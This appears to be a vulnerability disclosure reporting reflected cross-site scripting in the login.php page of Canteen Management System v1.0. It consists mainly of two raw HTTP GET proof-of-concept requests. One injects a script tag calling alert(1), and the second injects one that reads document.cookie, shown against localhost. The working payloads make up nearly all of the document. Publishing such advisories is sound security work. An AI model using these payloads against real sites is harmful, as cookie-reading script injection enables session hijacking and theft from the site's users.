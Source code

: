 # Canteen Management System v1.0 by mayuri_k has Cross-site scripting (reflected)

BUG_Author: Dingzhi.Huang

vendors:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

Vulnerability File: /youthappam/youthappam/login.php/

#POC：

```
GET /youthappam/youthappam/login.php/"><script>alert(1)</script> HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=v7smq3o2t7nt536lvojsstq26p; ci_session=e2rd852shtb8ln3qruscom3ubh61e7hs
Connection: close
```

![image](https://github.com/dynamohuang/pic/blob/main/xss.png)

#POC：

```
GET /youthappam/youthappam/login.php/"><script>alert(document.cookie)</script> HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=v7smq3o2t7nt536lvojsstq26p; ci_session=e2rd852shtb8ln3qruscom3ubh61e7hs
Connection: close
```

![image](https://github.com/dynamohuang/pic/blob/main/documentcookie.png)




